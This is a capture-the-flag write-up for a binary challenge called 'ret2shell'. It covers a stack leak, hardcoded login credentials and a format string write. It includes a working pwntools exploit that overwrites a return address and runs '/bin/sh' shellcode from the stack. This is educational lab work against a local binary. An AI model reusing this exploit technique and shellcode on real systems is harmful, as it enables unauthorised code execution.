








## ret2shell
### Architecture and protections
The binary is x64 and has an executable stack, but also has canary and PIE.



### Source code analysis
`main()` will call `note()` if `login()` returns `true`:



`login()` contains hardcoded credentials, and an information disclosure vulnerability at line 29:



`note()` has a [format string write vulnerability](https://ir0nstone.gitbook.io/notes/binexp/stack/format-string#arbitrary-writes) at line 42:



### Exploit planning
1. `read()` does not null-terminate the input, while `printf()` will output until it encounters a `\x00`.
2. Thus, craft a `name` in `login()` such that when printing `name`, there is information disclosure about the stack.
3. Use the format string write in `note()` to overwrite the return address to the address of injected shellcode.

### Exploit crafting
#### Relating the stack leak
- `b *(login+242)`



- `b *(note+89)`



Therefore, `category = leak - 0x228`.

- `b *(note+213)`



Therefore, the pointer to the return address is `leak - 0x120`.

#### Fuzzing for format string offset
```python
#!/home/kali/.venv/bin/python

from pwn import *

elf = context.binary = ELF("./vuln", checksec=False)
context.log_level = "error"

for i in range(1, 21):
        name = b"hacker"
        username = b"admin\x00"
        password = b"password123\x00"

        marker = p32(0xdeadc0de)
        pointer = f"%{i}$p".encode()
        payload = marker + pointer

        p = process()

        p.sendafter(b"name: ", name)
        p.sendafter(b"username: ", username)
        p.sendafter(b"password: ", password)
        p.sendlineafter(b"category: ", payload)

        if b"deadc0de" in p.recvline():
                print(f"offset : {i}") # 8
                p.close()
                break

        p.close()
```

### Exploit code
```python
#!/home/kali/.venv/bin/python

import sys
from pwn import *

elf = context.binary = ELF("./vuln", checksec=False)
context.terminal = ["tmux", "splitw", "-h"]
context.log_level = "error"

p = process()

if "gdb" in sys.argv:
    s = """
        b *(login+242)
        b *(note+89)
        b *(note+213)
    """
    gdb.attach(p, gdbscript=s)

#pause()

p.sendafter(b"name: ", b"AAAAAAAA")
p.sendafter(b"username: ", b"admin\x00")
p.sendafter(b"password: ", b"password123\x00")

p.recvuntil(b"Welcome ")
leak = int.from_bytes(p.recvline().strip()[8:], "little")
category = leak - 0x228
ret_ptr = leak - 0x120

OFFSET = 100

fmtstr = fmtstr_payload(8, {ret_ptr : category+OFFSET}, write_size="short")
assert len(fmtstr) < OFFSET, "fmtstr too large!"

nop_sled = (OFFSET - len(fmtstr)) * b"\x90"

shellcode = asm("""
    xor esi, esi
    push rsi
    mov rbx, 0x68732f6e69622f2f
    push rbx
    push rsp
    pop rdi
    push 0x3b
    pop rax
    cdq
    syscall
""")

payload = fmtstr + nop_sled + shellcode
assert len(payload) < 240, "payload too large!"

p.sendlineafter(b"category: ", payload)
p.sendlineafter(b"note: ", b"pwned")
p.interactive()
```

### Exploit success

